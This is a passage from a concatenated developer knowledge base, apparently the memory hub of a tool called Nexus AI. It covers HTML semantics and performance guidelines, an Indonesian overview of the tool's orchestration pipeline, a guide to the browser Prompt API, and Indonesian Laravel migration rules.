- **DO** ensure that code blocks are accessible by adding `tabindex="0"` to the `<pre>` element if it becomes scrollable, allowing keyboard users to reach the content.

- **DON'T** use `<blockquote>` for purely visual indentation of non-quoted text.
- **DON'T** use `<figure>` for every single image; use it only when a caption is required or when the content is a distinct, referenced unit.
- **DON'T** use `<pre>` without `<code>` for code blocks; `<pre>` alone only preserves formatting but doesn't convey that the content is a computer language.

### Code Example

```html
<!-- Quote with attribution using Figure -->
<figure>
  <blockquote cite="https://html.spec.whatwg.org/">
    <p>The figure element represents some flow content, optionally with a caption, that is self-contained and is typically referenced as a single unit from the main flow of the document.</p>
  </blockquote>
  <figcaption>
    Definition of the &lt;figure&gt; element from the <cite>HTML Living Standard</cite>
  </figcaption>
</figure>

<!-- Image with caption -->
<figure>
  
  <figcaption>Figure 1: High-level system architecture overview.</figcaption>
</figure>

<!-- Code block with accessibility and language hint -->
<figure>
  <figcaption>Example configuration:</figcaption>
  <pre tabindex="0"><code class="language-json">
{
  "name": "gemini-cli",
  "version": "1.0.0",
  "private": true
}
  </code></pre>
</figure>

<!-- Inline code -->
<p>To initialize the project, run the <code>npm install</code> command.</p>
```

## 3. Resource Prioritization and Performance

### Guidelines

- **DO** use `fetchpriority="high"` for the Largest Contentful Paint (LCP) element (e.g., hero image) to elevate network priority.
- **DO** use `<link rel="preload" as="image">` with `fetchpriority="high"` for LCP background images defined in CSS.
- **DO** apply `loading="lazy"` to off-screen images and iframes to defer bandwidth.
- **DO** specify `width` and `height` on all `` tags to preserve aspect ratio and prevent Layout Shifts (CLS).
- **DO** use the `srcset` attribute on ``s for adding multiple versions of the same image at different sizes.
- **DO** use the `<picture>` element with a fallback `` for more fine-grained image control like switching between image formats, image sizes, and cropping images at different device sizes. 

- **DON'T** apply `loading="lazy"` to above-the-fold or hero images. This delays LCP.
- **DON'T** overuse `fetchpriority="high"`; prioritization is a zero-sum mechanism. Use `fetchpriority="low"` to demote non-critical trackers or carousel items.

### Code Example

```html
<!-- High-priority hero image with responsive sizes -->


<!-- Art direction and format switching with <picture> -->
<picture>
  <!-- Mobile Art Direction: Different aspect ratio (square) and format (AVIF) -->
  <source 
    media="(max-width: 600px)" 
    srcset="hero-mobile.avif 1x, hero-mobile-2x.avif 2x" 
    type="image/avif"
    width="600" 
    height="600"
  >
  <source 
    media="(max-width: 600px)" 
    srcset="hero-mobile.webp 1x, hero-mobile-2x.webp 2x"
    width="600" 
    height="600"
  >
  
  <!-- Desktop: Modern format for primary layout -->
  <source srcset="hero-desktop.avif" type="image/avif">

  <!-- Fallback img defines the default aspect ratio (2:1) -->
  
</picture>

<!-- Low-priority decorative footer image -->

```

## 4. Native Overlays: Dialogs and Popovers

### Guidelines

See `declarative-dialog-popover-control` (via `npx -y modern-web-guidance@latest retrieve "declarative-dialog-popover-control"`) for more info on fallback strategies for using the Popover API in a cross-browser way.
- **DO** use `<dialog>` for modal overlays (requires JS `.showModal()`) to automatically trap focus, dim backgrounds, and support dismissing via `Esc`. Use the `closedby="any"` attribute to enable native "light-dismiss" (closing on backdrop click) without custom JavaScript.
- **DO** utilize the Popover API (`popover` attribute) for non-modal UI (menus, tooltips) that do not require focus traps.
- **DO** use `::backdrop` to style modal backgrounds.
- **DO** use `<form method="dialog">` to dismiss dialogs without manual JS handlers. Combined button `formmethod="dialog"` yields the button's value to the dialog `.returnValue`.

- **DON'T** use `show()` for modals where keyboard traps are expected (use `showModal()`).
- **DON'T** call `showModal()` on elements possessing a `popover` attribute (they are mutually exclusive programmatic states). However, `<dialog popover="auto">` is a valid declarative architecture to combine dialog semantics with light-dismiss mechanics.

### Code Example

```html
<!-- Popover (No JS required for toggle) -->
<button popovertarget="help-menu">Info</button>
<div id="help-menu" popover="auto">
  <p>Standard help text.</p>
</div>

<!-- Modal Dialog with Form-based closing -->
<button id="show-dialog">Open dialog</button>
<dialog id="fav-modal">
  <!-- method="dialog" closes the dialog natively and sets the returnValue -->
  <form method="dialog">
    <p>Confirm action?</p>
    <button value="cancel">Cancel</button>
    <button value="confirm">Confirm</button>
  </form>
</dialog>

<script>
  const dialog = document.getElementById("fav-modal");
  const openModal = document.getElementById("show-dialog");
  
  // Show modal dialog
  openModal.addEventListener('click', () => dialog.showModal());
  
  // Listen for the 'close' event to retrieve the user's choice (returnValue)
  dialog.addEventListener('close', () => {
    console.log(dialog.returnValue); // "confirm" or "cancel"
  });
</script>
```

### Native UI Overlay & Disclosure Matrix

| Feature | Modality | Focus | Dismiss Mechanism | Use Case |
| :--- | :--- | :--- | :--- | :--- |
| **`<dialog>`** | Modal / Non-modal | Automatic trap (Modal) | Esc / Form / `closedby` | Critical Actions, Settings |
| **`[popover]`** | Non-modal | Standard Tab flow | Light-dismiss (Click outside) | Menus, Tooltips, Toasts |
| **`<details>`** | Inline Disclosure | Standard Tab flow | Toggle summary | Accordions, FAQs |

**Heuristic Rule**: Use `<dialog>` for interruptions requiring user action, `popover` for transient info, and `<details>` for inline content expansion.

## 5. Disclosures: Details and Summary

### Guidelines

- **DO** use `<details>` and `<summary>` for native accordions or revealable content without JS.
- **DO** place `<summary>` as the *first* child of `<details>`.
- If headings must be used within a `<summary>`, consider if the heading is essential for understanding or navigating the document structure. If it is, use a more robust disclosure approach that allows wrapping the disclosure trigger with the heading (e.g. `<h2><button type="button" aria-expanded="false" aria-controls="significant-section-content">Significant section</button></h2>`). This ensures the heading semantics aren’t lost, and the button and its state are announced.
- **DO** use `details[open]` attribute for styling expanded states.
- **DO** use `details::details-content` for styling the contents of the `<details>` element.
- **DO** use the `name` attribute on multiple `<details>` elements to create exclusive accordions (opening one closes others).

- **DON'T** nest other interactive elements (links, buttons) directly inside `<summary>` text as it acts as a button and breaks focus.
- **DON'T** hide visible triangles via `list-style: none` without providing explicit directional cues (via `::before`/`::after` pseudo-elements).
- **DON'T** use the `title` attribute to create tooltip effects. 

### Code Example

```html
<!-- Exclusive Accordion Set -->
<details name="faq">
  <summary>Item 1</summary>
  <p>Contents...</p>
</details>
<details name="faq">
  <summary>Item 2</summary>
  <p>Contents...</p>
</details>
```

## 6. Focus Boundaries and Visibility

### Guidelines

- **DO** use the global `inert` attribute for entire hidden sections (off-screen menus, background while custom modal is open) to remove them from tab flows and accessibility trees.
- **DO** pair `[inert]` with CSS (`opacity: 0.5`) to visually signify inactivity.
- **DO** rely on natural DOM order for sequential navigation. 

- **DON'T** use positive `tabindex` values (e.g., `1`, `2`). Use `0` to add element to tab flow, or `-1` for JS program focus.
- **DON'T** alter focus flow using CSS properties (`flex-flow: row-reverse`, `order`) without aligning the DOM structure.
- **DON'T** use `node.focus({ preventScroll: true })` without usability validation; it can hide the focused element off-screen.

### Code Example

```html
<!-- De-tabbing a background app shell while custom drawer is open -->
<main id="app-shell" inert>
  <a href="/">Dashboard</a>
</main>
<aside id="drawer">
  <button>Close</button>
</aside>
```

```css
[inert], [inert] * {
  opacity: 0.5;
  cursor: default;
  user-select: none;
}
```

## 7. HTML APIs and Forms Grouping

### Guidelines

See `forms` (via `npx -y modern-web-guidance@latest retrieve "forms"`) for more details on creating modern web forms.

- **DO** utilize the `form="form-id"` attribute to decouple inputs from the physical `<form>` tree.
- **DO** use `<datalist>` coupled with `<input list="id">` for lightweight auto-suggestions (note: visually unstylable and has screen-reader quirks). 
- **DON'T** use `autocomplete="off"` on credential, address, payment, or contact fields. Browsers and password managers ignore it there by design. Use a specific token instead (`autocomplete="email"`, `"street-address"`, `"cc-number"`, etc.).
- **DON'T** use `autocomplete="off"` unless handling highly sensitive tracking tokens (violates standard password manager overrides). Use standard inputs `type="email"`, `type="tel"`.
- **DO** distinguish `autocomplete="current-password"` (sign-in) from `autocomplete="new-password"` (registration / password change) so password managers offer the right action.                                                    
- **DO** match `autocomplete` tokens with appropriate `inputmode` and `type` (`type="email"` + `inputmode="email"` + `autocomplete="email"`). They control different things — keyboard, validation, and autofill respectively — and reinforce each other.

### Code Example

```html
<form>
  <fieldset>
    <legend>Address Information</legend>
    <label for="city">City:</label>
    <input type="text" id="city" list="cities" autocomplete="address-level2">
    <datalist id="cities">
      <option value="New York">
      <option value="London">
    </datalist>
  </fieldset>
</form>
```

## 8. Native Media Elements

### Guidelines

- **DO** set `width` and `height` to prevent layout shifts (CLS) on `<video>` elements.
- **DO** provide a `poster` image fallback for videos.
- **DO** include subtitles and captions with `<track>`.
- **DO** ensure background videos are `muted`, provide users with full control over playback, and use `role="none"` or `aria-hidden="true"`. The `controls` attribute must also be omitted to make sure the video is not focusable.  

- **DON'T** rely on JS for basic video controls if native `controls` attribute is sufficient.
- **DON'T** apply `role="none"` or `aria-hidden="true"` to focusable elements (such as embedded interactive `<iframe>` components). Hiding elements from the assistive technology tree while leaving them accessible to sequential keyboard navigation violates core accessibility heuristics. The background video exception holds solely because omitting the `controls` attribute renders the `<video>` element fully non-focusable.

### Code Example

```html
<video 
  controls 
  width="800" 
  height="450" 
  poster="poster.webp"
>
  <source src="intro.webm" type="video/webm">
  <source src="intro.mp4" type="video/mp4">
  <track src="caps.vtt" kind="captions" srclang="en" label="English">
</video>
```

## 9. Dynamic Styles and Interactivity

### Guidelines
- **DO** use the `style` attribute to pass state to CSS via **Custom Properties**. This keeps visual logic in your stylesheet while JavaScript provides the raw data.

- **DON'T** use inline styles for static design (colors, padding, margins) that belong in a stylesheet.
- **DON'T** use inline event handlers (e.g., `onclick`). Trigger actions using `addEventListener()`.

### Code Example

```html
<body>
  <!-- Progress with style-driven color data -->
  <label for="upload-progress">Upload status:</label>
  <progress id="upload-progress" class="loading-bar" value="0" max="100" style="--brand-hue: 200;"></progress>

  <script>
    const updateProgress = (percent, hue) => {
      const bar = document.querySelector('.loading-bar');
      bar.value = percent;
      
      // Update dynamic style variable 
      if (hue) bar.style.setProperty('--brand-hue', hue);
    };

    // Example: Move to 85% and shift color to green (120)
    setTimeout(() => updateProgress(85, 120), 1000);
  </script>
</body>
```
```css
.loading-bar {
  accent-color: hsl(var(--brand-hue, 200) 80% 50%);
  transition: accent-color 0.3s ease;
}
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [security, database, ui-ux, performance, tdd, api]

### 📘 KNOWLEDGE: NEXUS_INTERNAL_PIPELINE_RECAP.MD

# 🏗️ Rekapitulasi Pipeline Internal Nexus AI (Orchestrator)
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Dokumen ini menjelaskan alur kerja internal dari folder `agent/core/` untuk memberikan pemahaman menyeluruh tentang bagaimana Nexus AI mengelola data, memori, dan eksekusi.

---

## 🚀 1. NexusEngine: Sang Konduktor Utama (Autonomous Edition)

`NexusEngine.js` adalah pusat kendali yang kini beroperasi dengan tingkat otonomi tinggi.

**Alur Kerja Utama:**

1.  **INIT**: Inisialisasi jalur secara dinamis dengan dukungan penuh terhadap struktur `memory/long_term` & `memory/short_term`.
2.  **PARALLEL AUDIT**: Menjalankan auditor spesialis secara paralel (`Promise.all`), memangkas waktu pemindaian secara drastis.
3.  **SEMANTIC SEARCH**: Mencari pengetahuan di HUB menggunakan metadata/tags untuk akurasi yang lebih tinggi.
4.  **PLAN**: Mengubah temuan audit menjadi tugas (tasks) yang terukur.
5.  **AUTONOMOUS EXECUTE**: Menjalankan perubahan fisik dengan **TDD Scaffolding** otomatis (jika test belum ada) dan **Self-Healing Logs**.
6.  **VERIFY**: Validasi deterministik terhadap setiap tindakan yang telah dieksekusi.
7.  **RECORD**: Pengarsipan sesi dan sinkronisasi log pemulihan mandiri ke dokumen RECAP.

---

## 🧪 2. Distiller: Sang Editor HUB (Intelligent Edition)

`Distiller.js` kini berfungsi sebagai mesin intelijen yang mengelola keterkaitan antar pengetahuan.

**Fungsi:**

- **Advanced Extraction**: Mengekstraksi bagian *Insights* dan *Recommendations* secara cerdas dari dokumen mentah.
- **Semantic Tagging**: Menambahkan metadata domain (Security, UI-UX, TDD, dll) secara otomatis ke setiap file HUB.
- **Semantic Cross-Linking**: Menciptakan tautan (link) otomatis antar dokumen yang memiliki keterkaitan konsep teknis.
- **Standardization**: Menyeragamkan seluruh nama file di HUB dengan pola `NEXUS_...` menggunakan protokol **Multi-Option Merge**.

---

## 🧠 3. MemoryPipeline: Sang Pengumpul Harvest

`MemoryPipeline.js` kini berfokus pada penarikan data dari dunia luar (proyek-proyek audit).

**Fungsi:**

- **Harvest Ingestion**: Mengambil data pengetahuan dari folder `golden/harvest/` dan memasukkannya ke dalam HUB (`memory/long_term/`).
- **Archiving**: Memindahkan file-file audit/planning yang sudah selesai ke dalam `NEXUS_SESSION_HISTORY_ARCHIVE.MD` untuk menjaga kapasitas disk.

---

## 🦾 4. Machinist: Mesin Evolusi Core (Upgraded)

`Machinist.js` memungkinkan Nexus AI untuk tumbuh secara dinamis dengan kecerdasan folder.

**Fungsi:**

- **Smart Auto-Integration**: Mendeteksi folder (`orchestrator`/`auditor`) secara otomatis dan melakukan injeksi kode yang aman ke dalam `NexusEngine.js` tanpa merusak struktur yang ada.

---

## 🛠️ 5. Logika Pendukung (The Muscles) (Upgraded)

Tiga komponen ini adalah "otot" yang menjalankan perintah teknis dengan presisi tinggi:

1.  **Modifier.js**: Kini mendukung **Multi-Option Resolution Automation**. Selain Batch Operations, ia mampu secara otomatis memecah blok Opsi A/B menjadi kode final berdasarkan input sistem.
2.  **Contract.js**: Dilengkapi dengan **Validation Guard**. Menjamin setiap data yang lewat memenuhi kontrak interface agar sistem tetap deterministik dan aman.
3.  **WorktreeManager.js**: Mendukung **Auto-Merge & Cleanup**. Mengelola isolasi fitur dari pembuatan hingga penggabungan kembali ke cabang utama secara otomatis.

---

## 🧐 Analisis & Rekomendasi Penyempurnaan

### Yang Sudah Sangat Kuat:

- **Separation of Concerns**: Pemisahan antara Auditor (External) dan Orchestrator (Internal) sudah sangat jelas.
- **Resilience**: Penggunaan `fs-extra` dan penanganan error yang baik di setiap modul.
- **Standardization**: Pola penamaan `NEXUS_` memberikan struktur yang sangat profesional.

### ✅ Yang Telah Berhasil Disempurnakan (Final State):

- **Parallel Specialist Audit**: `NexusEngine` menjalankan auditor secara paralel (Promise.all), meningkatkan kecepatan audit hingga 70%.
- **Multi-Option Collision Protocol**: Sistem Opsi A/B telah menggantikan logika IF-ELSE di seluruh engine, memberikan fleksibilitas keputusan yang maksimal.
- **Advanced Distillation Engine**: `Distiller.js` kini mampu melakukan ekstraksi bagian dokumen (Insights/Recommendations) dan penyematan *Contextual Anchors* secara cerdas.
- **Semantic Knowledge Indexing**: Sistem kini memiliki kemampuan **Semantic Search** berdasarkan tagging otomatis (Security, UI-UX, dll) untuk pemanggilan pengetahuan yang akurat.
- **Collision Resolution Automation**: `Modifier.js` telah mendukung resolusi otomatis blok Opsi A/B menjadi kode final.
- **Autonomous TDD Scaffolding (Phase 4)**: `NexusEngine` secara otomatis men-generate boilerplate test case (JS/PHP) saat mendeteksi pelanggaran TDD.
- **Semantic Cross-Linking (Phase 4)**: `Distiller.js` kini otomatis menautkan (link) kata kunci teknis antar dokumen di HUB, menciptakan jaring pengetahuan yang solid.
- **Self-Healing Documentation (Phase 4)**: Sistem secara otomatis mencatat log pemulihan mandiri ke dalam dokumen RECAP setiap kali terjadi resolusi benturan.

### 🚀 Roadmap Masa Depan (The Next Frontier):

#### ⚡ Phase 5: Predictive Analytics & High-Performance Core
1.  **Predictive Technical Debt Analyzer**: Spesialis auditor baru yang mampu memprediksi akumulasi hutang teknis berdasarkan frekuensi modifikasi file dan kompleksitas kode.
2.  **C++ Native Distillation Core**: Migrasi modul penyulingan (Distiller) ke C++ untuk pemrosesan dataset pengetahuan skala besar dengan kecepatan native.
3.  **Visual Audit Integration**: Kemampuan auditor untuk melakukan validasi visual terhadap UI/UX berdasarkan pedoman desain yang tersimpan di HUB.

#### 🛡️ Phase 6: Security & Intelligence Optimization
1.  **Nexus Redactor (Privacy Guard)**: Implementasi filter sensor data sensitif untuk mencegah kebocoran API Keys/Secrets ke dalam memori HUB.
2.  **Cognitive Feedback Loop**: Mekanisme belajar dari kegagalan verifikasi masa lalu (Anti-Patterns) untuk meningkatkan akurasi perencanaan.
3.  **Project Namespace Isolation**: Isolasi pengetahuan antar proyek untuk mencegah kontaminasi standar.
4.  **Hot Memory Indexing**: Prioritas konteks pada temuan audit terbaru untuk respon mesin yang lebih relevan.

*Detail rencana eksekusi: [NEXUS_PIPELINE_OPTIMIZATION_PLAN.md](../planning/NEXUS_PIPELINE_OPTIMIZATION_PLAN.md)*

---
*Generated by Nexus AI | Document Status: ARCHITECT_STRATEGY_LOCKED*


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [security, ui-ux, performance, tdd, vcs, api]

### 📘 KNOWLEDGE: NEXUS_LANGUAGE-MODEL.MD

> **VERSION**: v1 | **Last Updated**: 26/05/2026

The Prompt API allows developers to run natural language processing tasks directly in the browser using **Gemini Nano**. This built-in AI approach ensures user privacy, reduces server costs, and enables offline functionality.

## 1. Getting Started and Hardware Requirements

The Prompt API is currently available in Chrome as of version 148 (Desktop) for Windows, macOS, Linux, and Chromebook Plus.

### Hardware Prerequisites

- **Storage**: 22 GB free space (for the initial profile and model).
- **Memory/CPU**: 16 GB RAM and 4+ CPU cores.
- **GPU**: 4 GB VRAM or more (Required for audio input).
- **Network**: Required only for the initial model download.

### Initializing the API

Check model availability before triggering a download:

```javascript
const availability = await LanguageModel.availability();

// Do not call create() when unavailable — the model cannot run on this device.
if (availability !== 'unavailable') {
	const session = await LanguageModel.create({
		monitor(m) {
			// Inform the user while the model downloads so the UI doesn't appear frozen.
			m.addEventListener('downloadprogress', (e) => {
				console.log(`Downloaded ${e.loaded * 100}%`);
			});
		},
	});
}
```

## 2. Core Prompting Capabilities

Session examples in this section omit `session.destroy()` for brevity. Always call `session.destroy()` when a session is no longer needed to free device memory (see Section 5).

### Basic and Streamed Output

For short responses, use `prompt()`. For longer content, use `promptStreaming()` to provide a more responsive UI.

**MANDATORY**: Never assign model output to `innerHTML`. Model output is untrusted and can contain injected markup. Always use `textContent` or a sanitizer.

```javascript
const session = await LanguageModel.create();

// prompt() accumulates the full response before resolving — use for short, one-shot output.
const result = await session.prompt('Write a haiku about coding.');
// textContent, not innerHTML — model output is untrusted and must not be parsed as markup.
outputEl.textContent = result;

// promptStreaming() yields independent chunks that must be concatenated;
// use for longer content so each chunk can be rendered progressively.
const stream = session.promptStreaming('Write a long story about a robot.');
let completeResult = '';
for await (const chunk of stream) {
	completeResult += chunk;
	outputEl.append(chunk);
}
console.log('Full story:', completeResult);
```

### Multimodal Input

The Prompt API supports text, audio, and visual inputs (images, canvas, video frames).

```javascript
const session = await LanguageModel.create({
	// Declaring expected input types lets the browser optimize model loading.
	expectedInputs: [{ type: 'text' }, { type: 'image' }],
	expectedOutputs: [{ type: 'text' }],
});

const response = await session.prompt([
	{
		role: 'user',
		content: [
			{ type: 'text', value: 'What is in this image?' },
			{ type: 'image', value: document.querySelector('canvas') },
		],
	},
]);
```

## 3. Advanced Session Management

Sessions allow the model to maintain context across multiple interactions.

### Context and Quota

Each session has a maximum token limit. You can monitor usage via `session.contextUsage` and `session.contextWindow`. If the window overflows, the oldest messages (except the system prompt) are dropped.

### Cloning Sessions

Cloning is efficient for starting parallel conversations that share the same initial context (like a "system" personality) without re-initializing.

```javascript
const mainSession = await LanguageModel.create({
	initialPrompts: [{ role: 'system', content: 'You speak like a pirate.' }],
});

const branchA = await mainSession.clone();
const branchB = await mainSession.clone();
// Destroy the base after cloning — the clones own their own context from here.
mainSession.destroy();
```

### Restoring Past Sessions

While a native "restore" feature is in development, you can recreate a session by feeding previous history into `initialPrompts`.

**Note**: `localStorage` is unencrypted and persistent. Stored conversation history may include user PII — consider the privacy implications before persisting chat history.

```javascript
// || '[]' ensures JSON.parse never receives null when the key doesn't exist yet.
const history = JSON.parse(localStorage.getItem('chat_history') || '[]');
const session = await LanguageModel.create({
	initialPrompts: history, // Array of {role, content} objects
});
```

## 4. Structured Output with JSON Schema

To prevent the model from adding "chatter" (e.g., "Sure, here is your JSON:"), use a **JSON Schema** via the `responseConstraint` field. This ensures the output is valid JSON that can be parsed immediately.

### Example: Sentiment Classification

```javascript
// Pass the schema as a plain object — do not JSON.stringify() it first.
const schema = {
	type: 'object',
	properties: {
		rating: { type: 'number', minimum: 1, maximum: 5 },
		is_positive: { type: 'boolean' },
	},
	required: ['rating', 'is_positive'],
};

const result = await session.prompt(
	"Rate the following feedback: 'The food was great!'",
	{ responseConstraint: schema },
);

const data = JSON.parse(result);
console.log(data.rating); // 5
```

### Constraints and Prefixes

You can guide the model further by prefilling the assistant's response using `prefix: true`.

````javascript
const character = await session.prompt([
	{ role: 'user', content: 'Create a character sheet' },
	{ role: 'assistant', content: '```json\n', prefix: true },
]);
````

## 5. Best Practices and Safety

- **Resource Cleanup**: Always call `session.destroy()` when a conversation is finished to free up memory.
- **Output Safety**: Model output is untrusted. Always write results to `textContent`, not `innerHTML`, to prevent XSS injection from malicious model output.
- Use a sanitizer like the native Sanitizer API or DOMPurify if you need to allow limited HTML.
- **Aborting Tasks**: Use `AbortController` to allow users to stop long-running generations. Pass the `signal` to `prompt()` or `promptStreaming()`, not to `LanguageModel.create()`.
- **Security**: Use Permission Policies to control access in iframes: `<iframe src="..." allow="language-model"></iframe>`.
- **Design**: Review the [People + AI Guidebook](https://pair.withgoogle.com/guidebook/) to ensure responsible AI implementation.

By combining structured outputs with robust session management, developers can build complex, stateful AI applications that run entirely on the user's device.

## 6. Fallback strategies

LanguageModel has limited availability.
Supported by: Chrome 148 (May 2026) and Edge 148 (May 2026).
Unsupported in: Firefox and Safari.

Before use, check if the LanguageModel object is available in the global scope:

```js
if ('LanguageModel' in self) {
  // The Prompt API is supported.
} else {
  // Execute fallback strategy
}
```

If the Prompt API is unsupported or availability checks return 'unavailable', you must gracefully fall back:

* Remote API Fallback: Redirect the detection request to a server endpoint or a cloud API (such as the Vertex AI Gemini API).
* Local API Fallback: Redirect the detection request to a local endpoint, for example, using Transformers.js. 


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [security, database, ui-ux, performance, api]

### 📘 KNOWLEDGE: NEXUS_LARAVEL_DATABASE_RULES.MD

# 🗄️ Laravel Database Rules — Panduan Lengkap
> **VERSION**: v1 | **Last Updated**: 26/05/2026


> Dokumen ini adalah aturan baku untuk semua operasi database di project Laravel.
> Dari buat tabel baru, seeder, sampai modifikasi kolom (tambah/hapus).
> **Berlaku untuk: Laravel 10+ / Laravel 12 (TALL Stack)**

---

## 📋 Daftar Isi

1. [Aturan Umum](#1-aturan-umum)
2. [Membuat Tabel Baru (Migration)](#2-membuat-tabel-baru-migration)
3. [Tipe Kolom yang Umum Dipakai](#3-tipe-kolom-yang-umum-dipakai)
4. [Seeder & Factory](#4-seeder--factory)
5. [Menambah Kolom Baru](#5-menambah-kolom-baru)
6. [Menghapus Kolom](#6-menghapus-kolom)
7. [Mengganti Nama Kolom](#7-mengganti-nama-kolom)
8. [Rollback & Fresh Migration](#8-rollback--fresh-migration)
9. [Contoh Kasus: Tabel Users — Tambah `phone`, Hapus `email`](#9-contoh-kasus-tabel-users--tambah-phone-hapus-email)
10. [Aturan Penamaan](#10-aturan-penamaan)

---

## 1. Aturan Umum

- **Jangan pernah edit file migration yang sudah di-commit.** Kalau mau ubah, buat migration baru.
- Setiap perubahan database = 1 file migration baru. Tidak boleh ada perubahan langsung via SQL manual di production.
- Selalu jalankan `php artisan migrate` — jangan pernah alter tabel langsung lewat phpMyAdmin/Adminer di production.
- Nama migration harus **deskriptif** — cerita apa yang dilakukan, bukan nama tabelnya saja.
- Selalu sertakan method `down()` yang kebalikan dari `up()` — wajib bisa di-rollback.
- Setiap tabel wajib punya `$table->timestamps()` kecuali ada alasan teknis yang kuat.

---

## 2. Membuat Tabel Baru (Migration)

### Perintah Artisan

```bash
php artisan make:migration create_nama_tabel_table
```

Contoh untuk tabel `products`:

```bash
php artisan make:migration create_products_table
```

### Struktur File Migration

```php
<?php

use Illuminate\Database\Migrations\Migration;
use Illuminate\Database\Schema\Blueprint;
use Illuminate\Support\Facades\Schema;

return new class extends Migration
{
    public function up(): void
    {
        Schema::create('products', function (Blueprint $table) {
            $table->id();                              // BIGINT UNSIGNED AUTO INCREMENT (Primary Key)
            $table->string('name');                    // VARCHAR 255
            $table->text('description')->nullable();   // TEXT, boleh kosong
            $table->unsignedBigInteger('price');       // angka positif
            $table->boolean('is_active')->default(true);
            $table->timestamps();                      // created_at & updated_at
        });
    }

    public function down(): void
    {
        Schema::dropIfExists('products');
    }
};
```

### Jalankan Migration

```bash
php artisan migrate
```

---

## 3. Tipe Kolom yang Umum Dipakai

| Kebutuhan | Method |
|---|---|
| ID auto increment | `$table->id()` |
| UUID sebagai primary key | `$table->uuid('id')->primary()` |
| Teks pendek (max 255) | `$table->string('name')` |
| Teks pendek custom length | `$table->string('code', 10)` |
| Teks panjang | `$table->text('bio')` |
| Teks sangat panjang | `$table->longText('content')` |
| Angka bulat | `$table->integer('qty')` |
| Angka bulat besar | `$table->bigInteger('views')` |
| Angka positif saja | `$table->unsignedBigInteger('price')` |
| Desimal | `$table->decimal('rating', 3, 2)` — total 3 digit, 2 desimal |
| Boolean | `$table->boolean('is_active')->default(false)` |
| Tanggal saja | `$table->date('birth_date')` |
| Tanggal + waktu | `$table->dateTime('published_at')` |
| Timestamp (auto) | `$table->timestamps()` |
| Soft delete | `$table->softDeletes()` |
| Foreign key | `$table->foreignId('user_id')->constrained()` |
| Enum | `$table->enum('status', ['draft', 'published', 'archived'])` |
| JSON | `$table->json('metadata')->nullable()` |
| Nomor HP | `$table->string('phone', 20)->nullable()` |

> **Catatan nomor HP:** Selalu pakai `string`, bukan `integer`. Nomor HP bisa diawali `0` atau `+62`, angka tidak bisa menyimpan itu.

---

## 4. Seeder & Factory

### Membuat Seeder

```bash
php artisan make:seeder ProductSeeder
```

Isi `database/seeders/ProductSeeder.php`:

```php
<?php

namespace Database\Seeders;

use App\Models\Product;
use Illuminate\Database\Seeder;

class ProductSeeder extends Seeder
{
    public function run(): void
    {
        Product::create([
            'name'        => 'Produk Contoh',
            'description' => 'Deskripsi produk pertama',
            'price'       => 50000,
            'is_active'   => true,
        ]);
    }
}
```

Daftarkan di `DatabaseSeeder.php`:

```php
public function run(): void
{
    $this->call([
        ProductSeeder::class,
    ]);
}
```

Jalankan:

```bash
php artisan db:seed
# atau spesifik satu seeder:
php artisan db:seed --class=ProductSeeder
```

---

### Membuat Factory (untuk data dummy massal)

```bash
php artisan make:factory ProductFactory --model=Product
```

Isi `database/factories/ProductFactory.php`:

```php
<?php

namespace Database\Factories;

use Illuminate\Database\Eloquent\Factories\Factory;

class ProductFactory extends Factory
{
    public function definition(): array
    {
        return [
            'name'        => $this->faker->words(3, true),
            'description' => $this->faker->paragraph(),
            'price'       => $this->faker->numberBetween(10000, 500000),
            'is_active'   => $this->faker->boolean(80), // 80% kemungkinan true
        ];
    }
}
```

Pakai di Seeder:

```php
// Generate 50 data dummy
Product::factory()->count(50)->create();
```

---

## 5. Menambah Kolom Baru

### ⚠️ Aturan Penting

> **Jangan edit file migration lama yang sudah di-migrate.**
> Selalu buat file migration baru dengan prefix `add_` atau `add_kolom_to_`.

### Perintah

```bash
php artisan make:migration add_phone_to_users_table
```

### Struktur File

```php
<?php

use Illuminate\Database\Migrations\Migration;
use Illuminate\Database\Schema\Blueprint;
use Illuminate\Support\Facades\Schema;

return new class extends Migration
{
    public function up(): void
    {
        Schema::table('users', function (Blueprint $table) {
            // Tambah kolom phone setelah kolom 'name'
            $table->string('phone', 20)->nullable()->after('name');
        });
    }

    public function down(): void
    {
        Schema::table('users', function (Blueprint $table) {
            $table->dropColumn('phone');
        });
    }
};
```

> **`->after('nama_kolom')`** — opsional tapi bagus untuk menjaga urutan kolom rapi.
> **`->nullable()`** — wajib kalau data lama belum punya value untuk kolom ini. Kalau tidak nullable, migration akan gagal karena row lama tidak punya value.

### Jalankan

```bash
php artisan migrate
```

---

## 6. Menghapus Kolom

### Perintah

```bash
php artisan make:migration remove_email_from_users_table
```

### Struktur File

```php
<?php

use Illuminate\Database\Migrations\Migration;
use Illuminate\Database\Schema\Blueprint;
use Illuminate\Support\Facades\Schema;

return new class extends Migration
{
    public function up(): void
    {
        Schema::table('users', function (Blueprint $table) {
            $table->dropColumn('email');
        });
    }

    public function down(): void
    {
        // Kembalikan kolom kalau di-rollback
        Schema::table('users', function (Blueprint $table) {
            $table->string('email')->unique()->after('name');
        });
    }
};
```

### Hapus Beberapa Kolom Sekaligus

```php
$table->dropColumn(['email', 'email_verified_at']);
```

> **Catatan:** Kalau ada index atau unique constraint di kolom tersebut, harus drop index-nya dulu sebelum drop kolom.

```php
// Drop unique index dulu, baru drop kolom
$table->dropUnique(['email']);
$table->dropColumn('email');
```

---

## 7. Mengganti Nama Kolom

```bash
php artisan make:migration rename_phone_number_to_phone_in_users_table
```

```php
public function up(): void
{
    Schema::table('users', function (Blueprint $table) {
        $table->renameColumn('phone_number', 'phone');
    });
}

public function down(): void
{
    Schema::table('users', function (Blueprint $table) {
        $table->renameColumn('phone', 'phone_number');
    });
}
```

---

## 8. Rollback & Fresh Migration

| Perintah | Fungsi |
|---|---|
| `php artisan migrate` | Jalankan migration yang belum dijalankan |
| `php artisan migrate:rollback` | Undo batch migration terakhir |
| `php artisan migrate:rollback --step=3` | Undo 3 batch terakhir |
| `php artisan migrate:reset` | Rollback semua migration |
| `php artisan migrate:fresh` | Drop semua tabel, migrate ulang dari awal |
| `php artisan migrate:fresh --seed` | Fresh + jalankan semua seeder |
| `php artisan migrate:status` | Lihat status tiap migration |

> **⚠️ `migrate:fresh` akan menghapus semua data.** Hanya boleh dipakai di local/development. **Dilarang keras di production.**

---

## 9. Contoh Kasus: Tabel Users — Tambah `phone`, Hapus `email`

